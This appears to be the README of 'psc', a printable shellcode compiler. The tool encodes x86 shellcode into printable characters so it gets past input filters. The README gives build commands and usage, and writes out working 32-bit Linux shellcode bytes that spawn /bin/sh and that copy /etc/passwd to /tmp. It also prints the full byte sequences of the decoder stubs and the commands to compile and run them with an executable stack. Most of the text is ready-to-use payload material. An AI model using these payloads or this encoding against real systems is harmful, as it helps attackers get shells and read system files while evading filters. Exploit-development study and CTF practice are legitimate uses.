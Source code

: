 # `psc`: Printable Shellcode Compiler

## Getting started
The entire tool resides in `psc.c`. To compile & install the tool, run -

```bash
make
sudo make install
```

The install command copies the psc (executable) and psc.7 (man page) to system directories prefixed at `/usr/local`.

To run without installing -

```bash
# access man page
man ./psc.7

# run the tool
./psc <some_shellcode>
```

## Basic commands

To get printable shellcode of an arbitrary shellcode ("\xcd\x80..") -

```bash
psc "\xcd\x80.."
```

To generate a C stub along with the printable shellcode -

```bash
# generate the C stub
psc -c "\xcd\x80.." >run.c

# compile the output & run it
gcc -m32 -z execstack -o run run.c
./run
```

Retrieve only the encoded payload from the printable shellcode -

```bash
psc -e "\xcd\x80.."
```

For an exhaustive list of options and examples, please refer to the man page of psc.

## Examples

Shellcode: Spawn /bin/sh

```bash
# generate C stub
./psc -c "\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" >run.c

# compile & run the output
gcc -m32 -z execstack -o run run.c
./run
```

Shellcode: Copy `/etc/passwd` to `/tmp/outfile`

```bash
# generate C stub
./psc -c "\x31\xc0\xb0\x05\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x8d\x5c\x24\x01\xcd\x80\x89\xc3\xb0\x03\x89\xe7\x89\xf9\x66\x6a\xff\x5a\xcd\x80\x89\xc6\x6a\x05\x58\x31\xc9\x51\x68\x66\x69\x6c\x65\x68\x2f\x6f\x75\x74\x68\x2f\x74\x6d\x70\x89\xe3\xb1\x42\x66\x68\xa4\x01\x5a\xcd\x80\x89\xc3\x6a\x04\x58\x89\xf9\x89\xf2\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xb3\x05\xcd\x80" >run.c

# compile & run the output
gcc -m32 -z execstack -o run run.c
./run

# verify
cat /tmp/outfile
```

## Our Decoder
To convert to printable representation, use -

```bash
echo -e "\x60\x50..."
```

__Non-Printable Decoder__
`\x60\x50\x59\x8d\x49\x43\x51\x5a\x80\x39\x26\x74\x35\x30\xc0\x30\xdb\x32\x01\x40\xc0\xe0\x04\x41\x32\x19\x43\xc0\xe3\x02\xc0\xeb\x04\x30\xd8\x88\x02\x42\x30\xc0\x30\xdb\x32\x01\x40\x41\x32\x19\x43\xc0\xe0\x06\xc0\xe3\x02\xc0\xeb\x02\x30\xd8\x88\x02\x42\x41\x75\xc6\x61`

__Printable Decoder__
`\x60\x50\x59\x6a\x30\x58\x34\x30\x48\x50\x5b\x6a\x30\x58\x30\x59\x35\x30\x41\x4f\x30\x59\x4f\x30\x59\x60\x30\x41\x61\x30\x59\x61\x30\x41\x62\x30\x59\x69\x30\x41\x6a\x30\x59\x6a\x30\x41\x6b\x30\x59\x6d\x30\x59\x6e\x72\x49\x49\x30\x59\x37\x30\x41\x38\x30\x59\x38\x30\x41\x39\x30\x59\x3d\x30\x59\x3e\x30\x59\x47\x51\x5a\x4f\x79\x49\x26\x74\x3c\x6a\x30\x58\x34\x30\x50\x5b\x32\x59\x49\x43\x3f\x2c\x34\x32\x41\x4a\x40\x24\x3C\x3f\x27\x32\x30\x27\x77\x42\x49\x6a\x30\x58\x34\x30\x50\x5b\x32\x59\x4a\x43\x32\x41\x4b\x40\x3f\x2c\x36\x24\x3f\x30\x27\x77\x42\x4a\x42\x42\x41\x41\x41\x75\x41\x61`

__Printable Decoder with test shim__
`\x60\x50\x59\x6a\x30\x58\x34\x30\x48\x50\x5b\x6a\x30\x58\x30\x59\x35\x30\x41\x4f\x30\x59\x4f\x30\x59\x60\x30\x41\x61\x30\x59\x61\x30\x41\x62\x30\x59\x69\x30\x41\x6a\x30\x59\x6a\x30\x41\x6b\x30\x59\x6d\x30\x59\x6e\x72\x49\x49\x30\x59\x37\x30\x41\x38\x30\x59\x38\x30\x41\x39\x30\x59\x3d\x30\x59\x3e\x30\x59\x47\x51\x5a\x4f\x79\x5b\x26\x74\x3c\x6a\x30\x58\x34\x30\x50\x5b\x32\x59\x5b\x43\x3f\x2c\x34\x32\x41\x5c\x40\x24\x3C\x3f\x27\x32\x30\x27\x77\x42\x5b\x6a\x30\x58\x34\x30\x50\x5b\x32\x59\x5c\x43\x32\x41\x5d\x40\x3f\x2c\x36\x24\x3f\x30\x27\x77\x42\x5c\x42\x42\x41\x41\x41\x75\x41\x61\x31\xc0\xb0\x14\xcd\x80\x50\x5b\x31\xc0\x31\xc9\xb0\x25\xb1\x0f\xcd\x80`
